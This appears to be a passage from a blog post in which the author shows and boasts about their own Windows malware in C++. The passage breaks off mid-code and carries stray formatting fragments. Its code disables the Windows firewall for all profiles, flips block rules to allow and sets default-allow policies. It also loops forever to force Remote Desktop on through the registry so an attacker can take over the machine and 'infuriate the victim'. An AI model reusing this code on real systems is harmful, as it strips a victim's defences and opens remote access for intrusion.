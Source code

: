 ```cpp
```

Turning the firewall off
```cpp
void Firewall::firewallOff(){
	//Disable firewall for all profiles
	handleStatus = firewallPolicy->put_FirewallEnabled(NET_FW_PROFILE2_PUBLIC, FALSE);
	handleStatus = firewallPolicy->put_FirewallEnabled(NET_FW_PROFILE2_DOMAIN, FALSE);
	handleStatus = firewallPolicy->put_FirewallEnabled(NET_FW_PROFILE2_PRIVATE, FALSE);
}
</pre>

And my favorite:
<pre class="lang:cpp start-line:80 decode:1 nums:true" >
void Firewall::ownFirewall(){
	firewallOff();
	setDefaultAllowPolicy();
	replaceRule(get_randomRule("in"));
	replaceRule(get_randomRule("out"));
	blockToAllow();
}
```
This firewall is mine!

Implementing the nightmare in main:
```cpp

	//initialize firewall object and rules
	Firewall netshFirewall;
	if (SUCCEEDED(netshFirewall.get_handleStatus()))
		netshFirewall.populate_ruleSet();

	//This firewall is mine.
	if (SUCCEEDED(netshFirewall.get_handleStatus())){
		netshFirewall.ownFirewall();
```
More info: <a href="http://msdn.microsoft.com/en-us/library/windows/desktop/ff956128(v=vs.85).aspx">http://msdn.microsoft.com/en-us/library/windows/desktop/ff956128(v=vs.85).aspx</a>

<h3>Turning RDP On Constantly</h3>
Why use the shell if you can just remote in via the Remote Desktop Protocol (RDP) and own the box with a full admin account? That was the purpose of this part of the malware. It was also to infuriate the victim. This is as simple as spawning a thread to check if the registry key "HKLM\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server" has a value "fDenyTSConnections" set to 0. If not, set it to 0, enabling RDP, then check again in four seconds. Interacting with the registry via Windows API is pretty sketchy: 
```cpp

	HKEY rdpKey;
	DWORD rdpVal[MAX_PATH];
	DWORD lpd = MAX_PATH;
	DWORD dwType = REG_DWORD;
	//enable RDP forever
	while (1){
		DWORD newVal = 0;
		//open the key
		if (RegOpenKeyEx(HKEY_LOCAL_MACHINE, L"SYSTEM\\\\CurrentControlSet\\\\Control\\\\Terminal Server", 0, KEY_ALL_ACCESS, &rdpKey) != ERROR_SUCCESS)
			cout << "Could not open RDP registry key\\n";
		else{
			//query the value in fDenyTSConnections
			if (RegQueryValueEx(rdpKey, L"fDenyTSConnections", NULL, &dwType, (LPBYTE)rdpVal, &lpd) != ERROR_SUCCESS){
				if (RegSetValueEx(rdpKey, L"fDenyTSConnections", NULL, REG_DWORD, (const BYTE*)&newVal, sizeof(DWORD)) != ERROR_SUCCESS){
```